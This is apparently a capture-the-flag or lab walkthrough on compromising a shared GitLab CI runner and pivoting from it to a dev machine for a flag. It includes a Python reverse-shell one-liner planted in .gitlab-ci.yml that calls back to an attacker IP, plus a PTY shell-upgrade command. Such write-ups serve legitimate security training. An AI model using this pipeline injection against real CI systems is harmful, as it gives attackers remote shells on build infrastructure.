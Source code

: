 Switch to the `dev` environment
![[Pasted image 20250228002258.png]]
Make some sort of change to `README.md` and create a merge request. 
![[Pasted image 20250228002410.png]]

As you can see the merge request on dev was successful and `README` was updated to display test
![[Pasted image 20250228002634.png]]

Now let's look at the `Build->Jobs` and check the runner of the merge request we just made
![[Pasted image 20250228002518.png]]

Now lets look at one for a production merge request. They are the same. This means by compromising the `dev` runner we can do so for the `prod` runner too.
![[Pasted image 20250228002818.png]]

On the dev branch let's add our trusty reverse shell script. To the `.gitlab-ci.yml` file, and merge it in.![[Pasted image 20250228003905.png]]
```
stages:
  - deploy

production:
  stage: deploy
  script:
    - /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.50.4.149",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
    - 'echo "Deploying to ${CI_ENVIRONMENT_NAME}"'
  environment:
    name: ${CI_JOB_NAME}
```
![[Pasted image 20250228003955.png]]

Now we are on GRunner02, but we need to get to the dev and prod machines to compromise them. Let's explore some ways to do that
![[Pasted image 20250228010227.png]]
![[Pasted image 20250228010310.png]]
 
![[Pasted image 20250228004557.png]]
Unfortunately we are not able to use SSH because we do not have a good shell, this caused it to crash. 
Let's get our shell back by rerunning the pipeline
![[Pasted image 20250228005728.png]]

Now let's get a proper shell and try again
````bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
````
![[Pasted image 20250228010439.png]]
Now let's try to ssh again
![[Pasted image 20250228010602.png]]
Now we are in, let's complete the steps from the mother
![[Pasted image 20250228011124.png]]
![[Pasted image 20250228010938.png]]
Now let's verify with the mother 
![[Pasted image 20250228010957.png]]
There is the flag from the `DEV` machine

